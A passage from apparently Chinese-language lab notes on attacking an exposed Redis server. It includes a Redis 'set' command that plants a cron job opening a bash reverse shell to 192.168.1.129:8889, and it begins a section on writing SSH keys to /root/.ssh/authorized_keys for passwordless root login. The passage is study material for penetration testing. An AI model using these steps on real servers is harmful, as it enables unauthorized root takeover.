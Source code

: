 #### 本地开启监听得到反弹shell

![image-20250309195642619](./assets/image-20250309195642619.png)

（但是这里的shell为什么是来自192.168.1.1的）

然后命令无法执行



#### 修改定时任务，将监听端口改为8889



```
set x "\n*/1 * * * * bash -i >&/dev/tcp/192.168.1.129/8889 0>&1\n\n"
```

成功反弹shell并且可以执行命令

![image-20250309195717152](./assets/image-20250309195717152.png)







### ssh免密登录

#### 原理

通过redis想目标服务器写入ssh公钥，将公钥放到linux系统的/root/.ssh/authorized_keys的文件下实现ssh免密登录

#### 条件

服务端存在.ssh目录并且有写入权限，还需要redis是root启动的，因为非root权限无法进入root目录



#### 利用过程

本地：

##### 进入root目录下的 .ssh目录

```
cd ~/.ssh
```
